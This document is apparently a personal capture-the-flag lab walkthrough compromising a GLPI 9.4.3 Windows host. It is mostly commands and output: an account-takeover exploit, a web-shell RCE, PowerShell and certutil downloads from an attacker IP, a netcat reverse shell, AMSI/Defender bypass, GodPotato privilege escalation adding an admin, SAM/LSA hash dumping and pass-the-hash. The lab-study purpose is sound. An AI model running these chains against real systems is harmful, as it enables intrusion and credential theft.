    [+] Reference: https://huntr.dev/bounties/3557ccc4-9325-41e8-ae01-18685adcd888/
    [+] CVE: CVE-2022-39376

    [+] Vulnerable to: XSS Stored inside Standard Interface Help Link href attribute
    [+] Reference: https://huntr.dev/bounties/67f2f5da-5316-4bae-96b6-b0f0d719c4bf/
    [+] CVE: CVE-2022-41941

    [+] Vulnerable to: XSS on external links
    [+] Reference: https://huntr.dev/bounties/9976a2ed-b105-453c-8af8-2768eb1bbb87/
    [+] CVE: CVE-2023-22725

    [+] Vulnerable to: XSS on browse views
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-352j-wr38-493c
    [+] CVE: CVE-2023-22722

[+] Performing CVE-2022-35914 check
===================================


[+] Performing Credential check
===============================

[+] Valid user account found : normal:normal

[+] Performing default files check
==================================

[+] Interesting file found : http://172.16.2.12/ajax/telemetry.php
[+] Interesting file found : http://172.16.2.12/CHANGELOG.md
[+] Interesting file found : http://172.16.2.12/status.php

[+] Performing default folders check
====================================

[+] Interesting folder found : http://172.16.2.12/plugins
    [+] : http://172.16.2.12/plugins/remove.txt

[+] Performing default server check
===================================


[+] Performing Plugins check
============================
```

So far it is the version 9.4.3:



And we have a valid set of credentials? Actually they works:



And I see a potential interesting user that we need to reset it's password:



So first i will start by this exploit that resets the password by just knowing the email: https://github.com/SamSepiolProxy/GLPI-9.4.3-Account-Takeover

```
┌──(root㉿kali-bello)-[/home/…/Downloads/OffShore/dev.admin.offshore.com/GLPI-9.4.3-Account-Takeover]
└─# python3 reset.py --url 'http://172.16.2.12' --user 'normal' --password 'normal' --email 'glpi_adm@offshore.com' --newpass 'Coglione1!' 
[+] Password changed! ;
```

If this true we should be able to login then? Nice it worked:



Now I looked around but wasn't able to get any flag saved on the portal so now it is time to find a way how we can gain a rce?

https://github.com/0xdreadnaught/cve-2020-11060-poc

What about this one, it might be accessible. but it kept failing so i tested this one and it might have worked: https://www.exploit-db.com/raw/51726

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# python3 glpi_rce.py --url http://172.16.2.12 --user glpi_adm --password 'Coglione1!' --platform win
[+] GLPI Browser targeting 'http://172.16.2.12' ('windows') with following credentials: 'glpi_adm':'Coglione1!'.
[+] Target is up and responding.
[+] User 'glpi_adm' is logged in.
------------------------- trial number 1 -------------------------
[*] Wiping networks...
[+] Network created
[+] Modifying network
    New ESSID: RCEe
[+] Current shellname: CjuQLvux.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\CjuQLvux.php
[+] File 'dumped', accessible at: http://172.16.2.12/sound/CjuQLvux.php
[+] Shell size: 14009
------------------------- trial number 2 -------------------------
[*] Wiping networks...
    Deleting network id: 1846
[+] Network created
[+] Modifying network
    New ESSID: RCEee
[+] Current shellname: UzoyJDnx.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\UzoyJDnx.php
[+] File 'dumped', accessible at: http://172.16.2.12/sound/UzoyJDnx.php
[+] Shell size: 14010
------------------------- trial number 3 -------------------------
[*] Wiping networks...
    Deleting network id: 1847
[+] Network created
[+] Modifying network
    New ESSID: RCEeee
[+] Current shellname: oSBfqqHy.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\oSBfqqHy.php
[+] File 'dumped', accessible at: http://172.16.2.12/sound/oSBfqqHy.php
[+] Shell size: 8479
------------------------------------------------------------------
[+] RCE found after 3 trials!
[+] You can execute command remotely as: nt authority\network service@MGMT01
[+] Run this tool again with the desired command to inject:
    python3 CVE-2020-11060.py --url 'http://172.16.2.12/sound/oSBfqqHy.php' --command 'desired_command_here'
```

And it works baby:



Now I will try to get a nice shell. But I am having some issues so i will try to look around and I see some config from  xampp but none of them have any credentials so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# python3 glpi_rce.py --url 'http://172.16.2.12/sound/oSBfqqHy.php' --command 'type C:\xampp\htdocs\config\.htaccess'
[*] Response received from 'http://172.16.2.12/sound/oSBfqqHy.php':
<IfModule mod_authz_core.c>
Require all denied
</IfModule>
<IfModule !mod_authz_core.c>
deny from all
</IfModule>
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# python3 glpi_rce.py --url 'http://172.16.2.12/sound/oSBfqqHy.php' --command 'type C:\xampp\htdocs\config\config_db.php'
[*] Response received from 'http://172.16.2.12/sound/oSBfqqHy.php':
<?php
class DB extends DBmysql {
   public $dbhost     = '127.0.0.1';
   public $dbuser     = 'root';
   public $dbpassword = '';
   public $dbdefault  = 'a';
}
```

Next I will try to upload a nc64.exe instead:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# python3 glpi_rce.py --url 'http://172.16.2.12/sound/oSBfqqHy.php' --command 'powershell IEX(IWR http://10.10.14.3:8081/nc64.exe -Outfile C:\Windows\tasks\nc.exe)'
[*] Response received from 'http://172.16.2.12/sound/oSBfqqHy.php':
```

And now we have it:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# python3 glpi_rce.py --url 'http://172.16.2.12/sound/oSBfqqHy.php' --command 'dir C:\windows\tasks'
[*] Response received from 'http://172.16.2.12/sound/oSBfqqHy.php':
Volume in drive C has no label.
 Volume Serial Number is BD9E-A55C

 Directory of C:\windows\tasks

07/04/2024  06:16 PM    <DIR>          .
07/04/2024  06:16 PM    <DIR>          ..
07/04/2024  06:16 PM            45,272 nc.exe
               1 File(s)         45,272 bytes
               2 Dir(s)   3,082,563,584 bytes free
               
               
  
 //Calling the shell
                                                                                                                                                                                   
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# python3 glpi_rce.py --url 'http://172.16.2.12/sound/oSBfqqHy.php' --command 'C:\Windows\tasks\nc.exe 10.10.14.3 80 -e powershell'
```



Now hopefully there won't be any defender we need to take care of. Damn it there is:

```
PS C:\> cd Temp
cd Temp
PS C:\Temp> ls
ls
PS C:\Temp> certutil.exe -urlcache -f http://10.10.14.3:8081/GodPotato.exe GodPotato.exe
certutil.exe -urlcache -f http://10.10.14.3:8081/GodPotato.exe GodPotato.exe
At line:1 char:1
+ certutil.exe -urlcache -f http://10.10.14.3:8081/GodPotato.exe GodPot ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
 
PS C:\Temp>
```

Apparently I don't even need cause the flag is only in Public?

```
����administrator.DEV
����Public
    �   flag.txt
    �   
    ����Documents
    ����Downloads
    ����Music
    ����Pictures
    ����Videos
PS C:\users> cd Public 
cd Public 
PS C:\users\Public> cat flag.txt
cat flag.txt
OFFSHORE{rc3_fun_w1th_gziP!}
PS C:\users\Public>
```

I am not sure if there is also another flag in the admin home folder but in worst case scenario I might come back?

Anyway now I will move on to the third domain aka `admin.offshore.local`.

&nbsp;

# Need to check back on Admin share if needed

Next day i heard that this machine needed to be bypassed via AV defender bypass and I played around with the varius settings to bypass and patch the AMSI and I made it:



And we have a shell:



And adding a new local user:

```
PS C:\windows\tasks> ./GodPotato -cmd "cmd /c net user yovecio Coglione1! /add"
./GodPotato -cmd "cmd /c net user yovecio Coglione1! /add"
[*] CombaseModule: 0x140724503183360
[*] DispatchTable: 0x140724505496768
[*] UseProtseqFunction: 0x140724504873552
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\2dc4b937-5780-4fb8-921f-ff5c6453f448\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000a802-134c-ffff-c933-ddb18358248b
[*] DCOM obj OXID: 0xbd635beddf84a2ea
[*] DCOM obj OID: 0x76df5c464b7f0f19
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 880 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 6016
The command completed successfully.
```

And again adding to the local admins:

```
PS C:\windows\tasks> ./GodPotato -cmd "cmd /c net localgroup Administrators yovecio /add"
./GodPotato -cmd "cmd /c net localgroup Administrators yovecio /add"
[*] CombaseModule: 0x140724503183360
[*] DispatchTable: 0x140724505496768
[*] UseProtseqFunction: 0x140724504873552
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\907f8bc8-1942-4f4f-9386-26b0e6bf8217\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000d002-176c-ffff-9c12-2283aaf02c86
[*] DCOM obj OXID: 0xdfced5b3d445b74a
[*] DCOM obj OID: 0x8fe02da19fa6d9a0
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 880 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2128
The command completed successfully.
```

And now we have it?  


And after some tests I have a some hashes:

```
┌──(root㉿kali-bello)-[/home/…/2d5e8d22/Download/C:/Temp]
└─# impacket-secretsdump -system systemic.txt -security security.txt -sam samantha.txt LOCAL 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x31899a247e1007a27d4a8a3e58797d91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:971bc1ac6d2344c4b42107976e0972dc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:f134707b7798ad1bbf37f49a6a422a38:::
yovecio:1001:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xde8088b79e683ac49e3a5ab7cadb6bd2456b42d8
dpapi_userkey:0x7f9872238d261e9d819c655a9a87f443c1091887
[*] NL$KM 
 0000   A6 EE 5E F6 06 39 AA B2  A8 44 E7 4D 40 38 2B D9   ..^..9...D.M@8+.
 0010   D7 E6 98 BB BF D5 57 AC  7E 3B 20 87 5F 41 0C 55   ......W.~; ._A.U
 0020   70 A8 27 F8 FA 56 0C 6B  F8 73 A4 CE 4D 5A DC 57   p.'..V.k.s..MZ.W
 0030   E8 9E 11 0B 1D A7 BF B4  89 B9 A3 39 B2 B0 35 5E   ...........9..5^
NL$KM:a6ee5ef60639aab2a844e74d40382bd9d7e698bbbfd557ac7e3b20875f410c5570a827f8fa560c6bf873a4ce4d5adc57e89e110b1da7bfb489b9a339b2b0355e
[-] NTDSHashes.__init__() got an unexpected keyword argument 'ldapFilter'
[*] Cleaning up...
```

&nbsp;

# Post Exploitation

With these hashes I will use NETEXEC to get LSASS.exe secrets:

```
┌──(root㉿kali-bello)-[/home/…/2d5e8d22/Download/C:/Temp]
└─# NetExec smb 172.16.2.12 -u Administrator -H 971bc1ac6d2344c4b42107976e0972dc --lsa
SMB         172.16.2.12     445    MGMT01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT01) (domain:MGMT01) (signing:False) (SMBv1:False)
SMB         172.16.2.12     445    MGMT01           [+] MGMT01\Administrator:971bc1ac6d2344c4b42107976e0972dc (Pwn3d!)
SMB         172.16.2.12     445    MGMT01           [+] Dumping LSA secrets
SMB         172.16.2.12     445    MGMT01           dpapi_machinekey:0xde8088b79e683ac49e3a5ab7cadb6bd2456b42d8
dpapi_userkey:0x7f9872238d261e9d819c655a9a87f443c1091887
SMB         172.16.2.12     445    MGMT01           NL$KM:a6ee5ef60639aab2a844e74d40382bd9d7e698bbbfd557ac7e3b20875f410c5570a827f8fa560c6bf873a4ce4d5adc57e89e110b1da7bfb489b9a339b2b0355e
SMB         172.16.2.12     445    MGMT01           [+] Dumped 2 LSA secrets to /root/.nxc/logs/MGMT01_172.16.2.12_2024-07-06_152505.secrets and /root/.nxc/logs/MGMT01_172.16.2.12_2024-07-06_152505.cached
```

And DPAPI as well!

```
┌──(root㉿kali-bello)-[/home/…/2d5e8d22/Download/C:/Temp]
└─# NetExec smb 172.16.2.12 -u Administrator -H 971bc1ac6d2344c4b42107976e0972dc --dpapi
SMB         172.16.2.12     445    MGMT01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT01) (domain:MGMT01) (signing:False) (SMBv1:False)
SMB         172.16.2.12     445    MGMT01           [+] MGMT01\Administrator:971bc1ac6d2344c4b42107976e0972dc (Pwn3d!)
SMB         172.16.2.12     445    MGMT01           [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.2.12     445    MGMT01           [+] Got 10 decrypted masterkeys. Looting secrets...
SMB         172.16.2.12     445    MGMT01           [-] No secrets found
```

Ok now I wil login via WIN-RM and get all I can find:

```
³
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
OFFSHORE{l0ng_liv3_Th3_t@ter!}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd ..
```

I wasn't able to find more than 2 flags so I will move on!

&nbsp;

&nbsp;

&nbsp;